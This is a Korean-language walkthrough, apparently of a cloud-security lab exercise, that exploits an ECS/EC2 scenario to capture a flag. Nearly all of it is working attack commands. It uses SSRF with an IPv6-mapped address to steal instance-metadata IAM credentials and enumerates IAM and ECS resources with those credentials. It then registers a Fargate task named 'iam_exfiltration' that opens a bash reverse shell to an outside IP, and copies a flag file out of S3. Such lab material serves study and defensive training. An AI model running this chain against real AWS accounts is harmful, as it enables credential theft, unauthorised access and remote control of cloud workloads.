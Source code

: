 ※ 웹 페이지가 먼저 주어짐.

# ssrf를 이용하여 ec2에 부여되어있는 자격증명을 조회 ( 아래와 같이 우회 필요 )
http://18.207.154.209/?url=http://[::ffff:a9fe:a9fe]/latest/meta-data/iam/security-credentials/new_ecs_scenario_s3_role

# 자격증명 등록
aws configure --profile attacker
echo "aws_session_token = {얻은 토큰값}" >> ~/.aws/credentials

# 등록한 사용자에 대한 정보 확인하기 → 역할 이름 확인가능
aws --profile attacker sts get-caller-identity

# role 정보 확인
aws --profile attacker iam get-role --role-name new_ecs_scenario_s3_role
#-> arn:aws:iam::173258975867:role/new_ecs_scenario_s3_role (어디 적어놓으세요 나중에 쓰입니다. )

# 부여된 역할에 대한 정책 확인 ( 관리 정책 확인 ) → S3FullAccess
aws --profile attacker iam list-attached-role-policies --role-name new_ecs_scenario_s3_role

# 부여된 역할에 대한 정책 확인 ( 인라인 정책 확인 ) → new_ecs_scenario_policy
aws --profile attacker iam list-role-policies --role-name new_ecs_scenario_s3_role

# 인라인 정책에 대한 퍼미션 확인.
aws --profile attacker iam get-role-policy --role-name new_ecs_scenario_s3_role --policy-name new_ecs_scenario_policy

=========================== 실패 시나리오 ===========================

# s3 접근하여 플래그 들고오기.
aws --profile attacker s3 ls
aws --profile attacker s3 ls s3://ecs-scenario-bucket-abc123/
aws --profile attacker s3 ls s3://ecs-scenario-bucket-abc123/secret/
aws --profile attacker s3 cp s3://ecs-scenario-bucket-abc123/secret/flag.txt .

cat flag.txt

※ 이메일 확인

===================================================================

///////////////////////////////////////////////////////////////////

=========================== 성공 시나리오 ===========================

# 존재하는 클러스터 확인
aws --profile attacker ecs list-clusters

# 클러스터 정보 확인하기.
aws --profile attacker ecs describe-clusters --clusters new_ecs_scenario_cluster

# 클러스터 내에서 돌아가고 있는 인스턴스 확인.
aws --profile attacker  ecs list-container-instances --cluster arn:aws:ecs:us-east-1:173258975867:cluster/new_ecs_scenario_cluster

# 작동하고 있는 인스턴스에 대한 자세한 정보 출력
aws --profile attacker ecs describe-container-instances --cluster arn:aws:ecs:us-east-1:173258975867:cluster/new_ecs_scenario_cluster --container-instances arn:aws:ecs:us-east-1:173258975867:container-instance/new_ecs_scenario_cluster/2d3ed51ad04847dd894dc78e263adfb3

# ec2 인스턴스 조회
aws --profile attacker ec2 describe-instances --instance-ids i-0eb21dd38f6f099c2


※ 공격자는 개인 서버로 nc를 이용해 포트를 열고 리버스 쉘을 준비합니다.


# 리버스쉘 수행 작업 정의하기
aws --profile attacker ecs register-task-definition --family iam_exfiltration --task-role-arn arn:aws:iam::173258975867:role/new_ecs_scenario_s3_role --network-mode "awsvpc" --cpu 256 --memory 512 --requires-compatibilities "[\"FARGATE\"]" --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/13.209.77.125/57420 0>&1\\\"\"]}]"

# 사용할 수 있는 subnet 확인
aws --profile attacker ec2 describe-subnets   

# 정의한 작업 실행하기.
aws --profile attacker ecs run-task --task-definition iam_exfiltration --cluster arn:aws:ecs:us-east-1:173258975867:cluster/new_ecs_scenario_cluster --launch-type FARGATE --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-0c73fcdbfb99c884b\"]}}"


[리버스 쉘 성공 시]
apt-get update
apt-get install awscli
aws s3 ls
aws s3 ls s3://ecs-scenario-bucket-abc123/
aws s3 ls s3://ecs-scenario-bucket-abc123/secret/
aws s3 cp s3://ecs-scenario-bucket-abc123/secret/flag.txt .
cat flag.txt

===================================================================